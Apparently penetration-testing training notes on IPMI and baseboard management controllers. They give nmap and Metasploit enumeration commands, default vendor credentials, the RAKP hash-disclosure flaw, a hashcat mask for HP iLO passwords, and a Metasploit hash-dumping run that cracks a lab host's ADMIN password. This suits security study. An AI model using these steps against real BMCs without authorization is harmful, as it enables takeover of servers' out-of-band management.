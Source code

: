 Intelligent Platform Management Interface (IPMI) is a set of standardized specifications for hardware-based host management systems used for system management and monitoring. It acts as an autonomous system and works independently of the host's BIOS, CPU, firmware, and underlying operating system. It provides administrators the ability to manage systems even if they are powered off or unresponsive. It uses a direct network connection to the hardware and doesn't require access to the OS via a login shell, it could also be used for remote upgrades.

IPMI is typically used in three ways:

- Before the OS has booted to modify BIOS settings
- When the host is fully powered down
- Access to a host after a system failure

It can also monitor a range of different things like the system temperature, voltage, fan status, and power supplies. It can also be used for querying inventory information, reviewing hardware logs, and alerting using SNMP. The host can be powered off but Power source and LAN connection is required for IPMI to work correctly.

The IPMI protocol was first published by Intel in 1998 and is now supported by over 200 system vendors, including Cisco, Dell, HP, Supermicro, Intel, and more. Systems using IPMI version 2.0 can be administered via serial over LAN, giving sysadmins the ability to view serial console output in band. To function, IPMI requires the following components:

- Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
- Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
- Intelligent Platform Management Bus (IPMB) - extends the BMC
- IPMI Memory - stores things such as the system event log, repository store data, and more
- Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus

## Footprinting the Service

IPMI communicates over port 623 UDP. Systems that use the IPMI protocol are called Baseboard Management Controllers (BMCs), they are usually implemented as embedded ARM systems running Linux, and connected directly to the host's motherboard. They are built into many motherboards but can also be added as a PCI card. The most common BMCs are HP iLO, Dell DRAC, and Supermicro IPMI. With access to a BMC we can monitor, reboot, power off, or even reinstall the host OS, which is almost equivalent to physical access. Many BMCs expose a web-based management console, some sort of command-line remote access protocol such as Telent or SSH.

### Nmap
```shell-session
$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

### Metasploit Version Scan
```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts <ip address>
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Some unique default passwords:

|Product|Username|Password|
|---|---|---|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI|ADMIN|ADMIN|

## Dangerous Settings

In case the default credentials doesn't work we can turn to a [flaw](http://fish2.com/ipmi/remote-pw-cracking.html) in the RAKP protocol in IPMI 2.0. During the authentication the server sends salted SHA1 or MD5 hash of the user's password before the authentication takes place, it can be leveraged to obtain the password hash for any valid user account on the BMC, it can be than cracked with Hashcat mode 7300. In the event of HP iLO using factory default password we can try `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u` which tries all combinations of uppercase letters and numbers for an eight-character password.

There is no direct fix, clients can opt for hard to crack password or implement network segmentation rules to restrict direct access to the BMCs. One password may be re-used across different systems, and it's important to not overlook IPMI during penetration test since it can give us SSH access or access to web management console.

### Metasploit Dumping Hashes
```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts <ip address>
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

IPMI is very common in network environments, because of the ease of administration it brings, but it has the risk of exposing password hashes, and can lead to unauthorized access, system disruption, and even remote code execution.